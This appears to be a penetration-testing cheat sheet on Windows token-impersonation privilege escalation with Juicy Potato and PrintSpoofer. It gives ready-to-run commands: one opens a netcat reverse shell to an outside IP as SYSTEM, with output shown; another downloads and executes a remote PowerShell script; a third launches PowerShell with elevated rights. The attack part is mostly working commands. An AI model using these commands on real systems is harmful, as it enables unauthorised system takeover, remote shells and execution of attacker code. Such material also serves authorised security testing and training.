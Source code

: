 # Potatoes

<aside>
💡 Juicy Potato does not work for Windows Server 2019 and Windows 10 versions 1809 and
higher. However, there is another technique called **PrintSpoofer** for abusing these versions.

</aside>

## Affected Windows Versions

```powershell
Windows_10_Enterprise
Windows_10_Pro
Windows_7_Enterprise
Windows_8.1_Enterprise
Windows_Server_2008_R2_Enterprise
Windows_Server_2012_Datacenter
```

## Juicy Potato

**Requirements:** `SeImpersonatePrivilege` or/and `SeAssignPrimaryTokenPrivilege` enabled.

### Find a CLSID

[https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro)

[http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/](http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/)

### Exploit - Get a netcat reverse shell

```powershell
c:\Users\Public>JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```

### Exploit - Download&Run a malicious script as Administrator

```powershell
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```

## Print Spoofer

**Requirements:** `SeImpersonatePrivilege`  enabled.

**Tested on:** Windows 8.1, Windows Server 2012 R2, Windows 10 and Windows Server 2019.

### Exploit - Run Powershell as Administrator

```powershell
.\PrintSpoofer.exe -i -c powershell.exe
```